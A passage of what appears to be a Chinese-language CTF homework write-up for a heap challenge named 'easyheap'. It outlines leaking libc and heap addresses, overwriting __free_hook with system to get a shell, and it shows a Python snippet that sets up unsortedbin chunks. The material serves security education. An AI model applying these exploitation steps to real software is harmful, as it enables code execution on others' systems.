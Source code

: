 ## Homework - easyheap

這題 Source Code 跟剛剛上一題 Final 基本上是同一份程式碼改出來的，差別只在於交換資料的方式，以及多了一些簡單的防禦。所以直接進 Pwn 吧

### Pwn

思考流程跟剛剛的 Exploit 3 一樣：

- Leak 出 libc 的 base address 以及 heap 的 base address
- 修改 `__free_hook` 成 `system`
- 觸發 `free` Get Shell

#### 取得 Libc 以及 Heap 的 Base Address

首先先把 unsortedbin 中塞滿幾個 Chunk：

```python
add_book(0, 0x410, "UAF-1", 1000)
add_book(1, 0x410, "UAF-2", 1000)
add_book(2, 0x410, "UAF-3", 1000)
delete_book(0)
delete_book(1)
delete_book(2)
```

![EASY_HEAP_unsortedbin](./resources/EasyHeapUnsortedbin.png)
